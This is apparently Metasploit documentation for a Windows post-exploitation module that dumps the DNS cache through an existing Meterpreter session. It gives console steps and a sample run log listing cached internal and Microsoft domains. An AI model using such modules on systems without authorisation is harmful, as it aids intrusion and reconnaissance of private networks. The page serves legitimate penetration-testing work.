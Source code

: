 ## Vulnerable Application

This module displays the records stored in the DNS cache.

## Verification Steps
  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/dnscache_dump`
  4. Do: `set SESSION <session id>`
  6. Do: `run`

## Options

  ```
  SESSION
  ```
  The session to run this module on.


## Scenarios

### A run on Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf post(windows/gather/cachedump) > use post/windows/gather/dnscache_dump
  msf post(windows/gather/dnscache_dump) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/dnscache_dump) > run

    [*] DNS Cached Entries
    ==================

    TYPE  DOMAIN
    ----  ------
    0001  dc.domain.local
    0001  watson.microsoft.com
    0005  download.windowsupdate.com
    0005  go.microsoft.com
    0005  www.msftncsi.com
    0005  download.microsoft.com
    00ff  isatap
    00ff  wpad
    00ff  _ldap._tcp.dc.domain.local
    00ff  _ldap._tcp.default-first-site-name._sites.dc.domain.local

    [*] Post module execution completed
    ```

